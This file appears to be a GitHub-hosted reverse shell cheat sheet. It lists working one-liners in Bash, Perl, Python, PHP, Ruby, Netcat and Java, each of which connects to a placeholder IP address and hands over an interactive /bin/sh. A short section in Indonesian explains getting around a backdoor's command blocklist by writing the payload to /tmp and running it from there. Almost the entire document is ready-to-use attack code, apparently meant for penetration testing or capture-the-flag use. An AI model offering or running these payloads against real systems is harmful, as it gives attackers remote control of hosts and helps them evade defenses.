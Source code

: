 # Pentest Monkey Reverse Shell
## Bash
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python 2 or 3
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat
```
nc -e /bin/sh 10.0.0.1 1234
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

# Tips n Trick
## Writeble Directory
Misal ada backdoor yang ada blocklist command, kita bisa coba ini
```
# Simpan payload ke writable directory, biasanya /tmp
echo bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 > /tmp/mrdoel.sh

#Cek apakah ada filenya

dir /tmp

# lalu jalankan
/bin/bash /tmp/mrdoel.sh
```